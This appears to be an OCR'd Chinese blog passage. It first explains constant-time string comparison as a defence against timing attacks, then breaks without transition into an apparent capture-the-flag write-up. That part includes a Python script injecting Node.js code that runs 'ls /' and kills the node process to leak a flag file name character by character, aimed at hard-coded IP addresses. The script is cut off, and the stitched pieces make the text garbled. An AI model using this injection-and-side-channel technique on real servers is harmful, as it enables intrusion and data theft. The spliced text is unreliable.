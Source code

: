 这个函数的功能是比较两个字符串是否相等，首先长度不等结果肯定不等，立即返回这个很好理解。再看看后面的，稍微动下脑筋，转弯下也能明白这其中的门道：通过异或操作`1^1=0`、`1^0=1`、`0^0=0`，来比较每一位，如果每一位都相等的话，两个字符串肯定相等，最后存储累计异或值的变量`equal`必定为`0`，否则为`1`。但是
从效率角度上讲，难道不是应该只要中途发现某一位的结果不同了(即为`1`)就可以立即返回两个字符串不相等了吗，类似与下边这样。

```java
for (int i = 0; i < a.length(); i++) {
    if (a.charAt(i) ^ b.charAt(i) != 0) // or a.charAt(i) != b.charAt(i)
        return false;
}
```
以前知道通过延迟计算等手段来提高效率的手段，但这种已经算出结果却延迟返回的，还是头一回，结合方法名称`safeEquals`可能知道些眉目，与安全有关，其实`JDK`中也有类似的方法，例如`java.security.MessageDigest`，看注释知道了目的是为了用常量时间复杂度进行比较。

```java
public static boolean isEqual(byte[] digesta, byte[] digestb) {
   if (digesta == digestb) return true;
   if (digesta == null || digestb == null) {
       return false;
   }
   if (digesta.length != digestb.length) {
       return false;
   }

   int result = 0;
   // time-constant comparison
   for (int i = 0; i < digesta.length; i++) {
       result |= digesta[i] ^ digestb[i];
   }
   return result == 0;
}
```

实际上，这么做是为了防止计时攻击，计时攻击是边信道攻击(或称侧信道攻击，`Side Channel Attack`，简称`SCA`) 的一种，边信道攻击是一种针对软件或硬件设计缺陷，走歪门邪道的一种攻击方式。  

然后表哥们就玩了一个花里胡哨的侧信道方案哈哈哈，首先既然无法出网，就需要知道一个服务器的状态，而表哥们选用的服务器状态，就是这个`node`进程是否还活着，整体思路就是，首先在根目录去读文件，`flag`大概率是在文件中的，通过执行`ls /`获得一个输出的字符串，然后我我们传递进去一段代码，如果这个字符与我们传进去的字符相同，就杀死这个`node`进程，然后我们就访问不到服务了，然后就可以断定这个字符是正确的，而传入的字符就只能一个个遍历了。首先我们需要遍历出来存放`flag`的文件，直接上代码，这实际上也算是一种爆破方案，在尝试的过程中也会出现一些状况，因为靶机的`node`重启太快了刚杀死就重启了，所以需要不少人工因素查看，有时候会顿一下多看几次都在那里停顿大概率就是那个字符了了，多看几遍可以排除下网络波动因素。

```python
# blast_file_name.py 爆破文件名

import requests
from urllib import parse
import base64
from time import sleep
import string

# url = "http://39.106.69.116:30001/"
url = "http://39.106.34.228:30001/"

template = '''
    const exec = require("child_process").exec;
    const fs = require("fs");
    const cmd = "ls /";

    exec(cmd, function(error, stdout, stderr) {{ 
        if(stdout[{0}]==="{1}" && stdout.substr(0,{0})==="{2}"){{
            exec("pkill node");
        }}
    }});
'''


def remote_exec(command):
```